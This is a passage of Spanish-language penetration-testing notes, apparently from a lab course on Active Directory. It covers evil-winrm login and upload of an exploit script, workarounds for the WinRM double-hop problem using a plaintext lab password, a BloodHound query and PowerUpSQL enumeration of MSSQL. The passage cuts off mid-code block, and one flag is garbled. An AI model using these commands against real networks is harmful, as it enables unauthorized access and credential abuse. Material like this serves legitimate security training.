 	evil-winrm -i $target -u <username>
	```
	-  Para subir/descargar archivos en una sesión `evil-winrm`
		- Subir archivos
			```powershell
			upload /home/user/scripts/exploit.ps1 C:\Users\Administrador\Desktop\exploit.ps1
			```
		- Descargar archivos
			```
			download C:\ruta\archivo.txt /ruta/local/archivo.txt
			```
### Estableciendo sesión - problema del double Hop
Dado que en WinRM obtenemos un ticket TGS, no podemos ejecutar algunos comandos que involucran comunicarse con otros hosts. Ejemplo:
```powershell
#Comando desde la máquina atacante para establecer powershell remoting (OK)
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\\backupadm
# El comando a continuación ejecuta una solicitud LDAP o Kerberos a DC01 (Falla)
Get-DomainUser -SPN
```
#### Solución 1: **PSCredential Object**

Una posible solución es envíar nuevamente nuestras credenciales
```powershell
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\\backupadm', $SecPassword)
```

Ahora, si intentamos ejecutar comandos que involucren servicios con autenticación delegada e incluimos la flag `-credenti-Credentialal $Cred` , podremos acceder a estos servicios:
```powershell
get-domainuser -spn -credential $Cred | select samaccountname
```

#### Solución 2: **Register PSSession Configuration**

Otra solución es que en la sesión de autenticación se pasen, además de las credenciales de `backupadm` para que siempre se ejecuten los comandos con las credenciales de este usuario.
```powershell
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\\backupadm
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\\backupadm -ConfigurationName  backupadmsess
```

## SQL Server
### Enumerando usuarios con derechos de administrador en SQL
- Query personalizada de Bloodhound
	```cypher
	MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
	```
### PowerUpSQ,1443
- [Chuleta interesante](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
- Enumerando instancias de MSSQL    
    ```powershell
    cd .\\PowerUpSQL\\
    Import-Module .\\PowerUpSQL.ps1
    Get-SQLInstanceDomain
    ```
- Autenticando sobre una instancia MSSQL (Windows)
    ```powershell
